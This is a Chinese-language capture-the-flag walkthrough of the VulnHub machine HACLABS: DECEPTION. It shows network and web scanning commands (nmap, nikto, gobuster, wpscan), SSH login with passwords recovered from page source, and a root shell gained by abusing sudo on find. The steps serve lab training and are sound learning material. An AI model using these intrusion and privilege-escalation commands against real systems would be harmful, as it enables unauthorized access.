

# VulnHub-HACLABS:DECEPTION

## 靶机下载链接

https://vulnhub.com/entry/haclabs-deception,427/

## 简要描述

This machine is designed by keeping in mind about all the beginners who wants to start their journey in CTF challenges.
这台机器的设计考虑到了所有想要开始 CTF 挑战之旅的初学者。

This machine doesn't require any prior knowledge about different web vulnerabilities.
此计算机不需要任何有关不同 Web 漏洞的先验知识。

Privilege escalation is the Key!
权限升级是关键！

This machine has 3 flags. Each flag is present in home directory.
这台机器有 3 个标志。每个标志都存在于主目录中。

You must know some basic linux commands to pawn this machine.
您必须知道一些基本的 linux 命令才能典当这台机器。


## 安装

运行虚拟机的时候可能会报这个错误

End kernel panic - not syncing: attempted to kill the idle task

直接设置处理器核心数为2，显存为32MB即可，具体教程如下：

https://blog.csdn.net/weixin_51900414/article/details/136439092


## 转为vmware兼容的格式

参考链接：https://stackoverflow.com/questions/29071662/fail-to-import-ova-file-to-vmware-player

直接virtualbox导出为OVF格式1.0

然后将虚拟机导入vmware中即可


还是和no_name一个做法

由于我们是导入vmware，直接不用桥接了，nat模式就可以了


## Attack

### 主机存活检测

```
sudo netdiscover -i eth0 -r 192.168.79.0/24
```


```
192.168.79.131
```


### 端口扫描

```
sudo nmap -sS 192.168.79.131 -p-
```


可以看到开放了80和22端口


### 枚举端口服务

```
sudo nmap -A -sV -sT 192.168.79.131 -p22,80
```


不枚举也行的，直接看22和80有没有什么直接攻击的漏洞


### 80端口探索

直接访问80端口，发现是一个apache2的默认页面，除了透露一些经典路径外，没有什么直接的入口



#### 使用nikto扫描web站点

```
nikto -h http://192.168.79.131
```


```
http://192.168.79.131/phpmyadmin
http://192.168.79.131/phpmyadmin/changelog.php
http://192.168.79.131/wordpress/wp-links-opml.php
http://192.168.79.131/wordpress/wp-admin/
http://192.168.79.131/wordpress/
http://192.168.79.131/phpmyadmin/
http://192.168.79.131/wordpress/wp-content/uploads/
http://192.168.79.131/wordpress/wp-login.php
```

有个wordpress的疑似应用，还有phpmyadmin一个经典的数据库工具,还有一个查看上传文件的地方


看一下有没有默认密码

```
root
123456
```

可能有默认密码，但是限制了登录位置


再看一下经典的路径有没有东西

```
http://192.168.79.131/phpmyadmin/doc/html/index.html
```


版本号为4.6.6，漏洞满天飞，随便用一个就可以了应该

#### 使用gobuster进行目录扫描

```
gobuster dir -u http://192.168.79.131/wordpress/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x "php,html" -t 100
```


```
 http://192.168.79.131/wordpress/robots.html
```


我勒个输入框啊，这个我们喜欢，尝试输入点东西，发现搁那递减

F12查看源代码之后发现

```js
var count = 1;
function myFunction() {
  if (count<15) {
    var input = document.getElementById("uname").value;
    alert("clicks left for noob "+ input +":"+ (50-count));
    count++;
  }
  else {
   window.location="admindelete.html";
  }
};
```

那跳转到这个页面

```
http://192.168.79.131/wordpress/admindelete.html
```


被狠狠讽刺了，那我们找一下hint

```
http://192.168.79.131/wordpress/hint.html
```


提示我们在主页上收集所有可用的API tokens

那我们就去主页查看源代码，直接ctrl+F搜索api即可


后面就不放图片了，收集到如下：

```
API old0 : 5F4DCC3B5AA
API old 1 : 765D61D8
API old2 : 327DEB
API new : 882CF99
```

按照所给顺序拼在一起就是：

```
5F4DCC3B5AA765D61D8327DEB882CF99
```


#### wpscan扫描wordpress站点

wordpress也是，这里可以使用wpscan进行扫描，专用工具，具体参数-h查看

```
wpscan --url http://192.168.79.131/wordpress/
```

其中-e是枚举的内容类型，部分类型如下，可以叠加使用：

- u，枚举用户
- p，枚举插件
- vp，枚举有漏洞的插件
- vt，枚举有漏洞的主题
- cb，枚举配置文件备份
- dbe，枚举数据库导出文件

```
wpscan --url http://192.168.79.131/wordpress/ -e u,vp,cb,dbe
```


配置文件，db文件啥的都没有

### 22端口尝试

枚举出两个用户，结合上面的tokens-hint，我们尝试一下ssh连接上haclabs和yash，尝试出来是yash的用户密码

```
ssh yash@192.168.79.131
5F4DCC3B5AA765D61D8327DEB882CF99
```

#### flag1.txt

根据靶机提示，说放在主目录中


```
71C480DF93D6AE2F1EFAD1447C66C9525E316218CF51FC8D9ED832F2DAF18B73
```

#### flag2.txt

已经登录进来了，就去探索一下


查看了一下，发现一些可疑的：


```
ssdsdsdsdsdqwertyuiopasdfghjklzxcvbnmqwertyuiopasdfghjklzxcvbnmzxcvbnmasdfghjklqwertyuiop1234567890qazxdswedcfrfgvbhyyhnkiollokmkijnjuyhbhytgvfrdcxdesxzsyuiopasdfghjklzxcvbnmzxcvbnmasdfghjklzaq123456vfr4567890mnbvcde4567890yuiopasdfghjklzxcvbnmzxcvbnmasdfghjklmnbvcxzsaq234567890-098765rewsxcvbnm,lpoiuytresxcbnmkoiuytredcyuiopasdfghjklzxcvbnmzxcvbnmasdfghjk!@#$dfkdfjdkfjdf!@#$fdjferheirdfdfksdjhfsg24356789yuiopasdfghjklzxcvbnmzxcvbnmasdfghjkljdfivnd"haclabs"jsdskdjskdjsldsklfjlkfdgl/dsfgkdhfgkdfgdjfhkagdhkdhgkkdzfkgdhfffgkhsfhgkdfhgkjlsfladjsflslfjlaaakjdflkaejflyuiopasdfghjklzxcvbnmzxcvbnmasdfghjklNDmsfmbwebrm43564576nu4r50q824305485103601856035860020^&*()sdjfsdflsdfaldjfleragkrjgkfdghdfhksjdhgsghkskskfskgkshkshksfhkgkrtho43euvnd,m,mnhjkjhgfdrtfghj,;poiuytgbvftyhjkllksjhgdfrteuyue"A=123456789"fdsgfhndsffjladjksfjlsdfjlfghfieruyiehgkfnjuyhbvcftyu789876543wsxcvbnm,mju76543asxcferfgbnm,klokjhgbvcxsdfklsdfweri34o58uwotueagsdgjlyuiopasdfghjklzxcvbnmzxcvbnmasdfghjklwlarqlewairp3wi4te0596q03496tiquieljkgrelrsjto5euyjgeldfhqowe5uy4seyjelsdglsoh45yeujhskehgesjhgsyuiopasdfghjklzxcvbnmzxcvbnmasdfghjkldsklflssldfjlsdfjsldfjsldfjld"+A[::-1]"fjlsdnvsldvnsujnhgfqwertyuioplkjhgfdsazxcvbnm,mnbvcxzasdfghjkl;poiuytrewqazxsedcvftghnklyuiopasdfghjklzxcvbnmzxcvbnmasdfghjklyuiopasdfghjklzxcvbnmzxcvbnmasdfghjklyuiopasdfghjklzxcvbnmzxcvbnmasdfghjklyuiopasdfghjklzxcvbnmzxcvbnmasdfghjkldjfkdslfjsldfjsldfjlw4o32894829348293489289389

```


这个就稍微没有点水平了，不是很懂这个，专为了ctf而设计了

```
A=123456789
+A[::-1]
```

可能haclabs的密码如下

```
haclabs987654321
```

经过尝试，确认可以登录

```
su haclabs
haclabs987654321
```

ls查看发现在haclabs的家目录中：


```
c2Vjb25kIGZsYWcgOiBGQkM5NDQ2MDExQ0Y1QjE5OEVEOTU5NkNFRkJDNzlCQgpCdXQgc3RpbGwgaXQgaXMgbm9vT0JCIQo=
```

base64解码

```
second flag : FBC9446011CF5B198ED9596CEFBC79BB
But still it is nooOBB!
```

拿到了第二个flag

### 提权

#### flag3.txt

和no_name靶机如出一辙


```
sudo -u root find . -exec /bin/bash \; -quit
```

find提权，其他提权方式详情请看no_name靶机全解


然后也是进到root目录下就能看到flag了


## 做法二

从phpmyadmin入手，进行写shell